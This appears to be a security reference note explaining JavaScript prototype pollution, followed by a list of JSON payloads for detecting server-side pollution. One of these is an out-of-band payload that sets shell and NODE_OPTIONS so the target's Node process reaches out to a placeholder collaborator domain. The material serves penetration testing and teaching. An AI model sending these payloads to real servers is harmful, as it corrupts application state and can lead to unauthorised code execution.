 # Prototype Pollution

Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.

## What is a prototype in JavaScript?

Every object in JavaScript is linked to another object of some kind, known as its prototype. By default, JavaScript automatically assigns new objects one of its built-in prototypes. For example, strings are automatically assigned the built-in String.prototype. You can see some more examples of these global prototypes below:

    let myObject = {};
    Object.getPrototypeOf(myObject);    // Object.prototype

    let myString = "";
    Object.getPrototypeOf(myString);    // String.prototype

    let myArray = [];
    Object.getPrototypeOf(myArray);	    // Array.prototype

    let myNumber = 1;
    Object.getPrototypeOf(myNumber);    // Number.prototype

Objects automatically inherit all of the properties of their assigned prototype, unless they already have their own property with the same key. This enables developers to create new objects that can reuse the properties and methods of existing objects.

## Detecting server-side prototype pollution without polluted property reflection

[Link](https://portswigger.net/research/server-side-prototype-pollution)
- JSON Spaces:
```
{"__proto__":{"json spaces":" "}}
```
- Exposed headers:
```
{"__proto__":{"exposedHeaders":["foo"]}}
```
- Status:
```
{"__proto__":{"status":510}}
```
- OAST:
```
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
  }
}
```
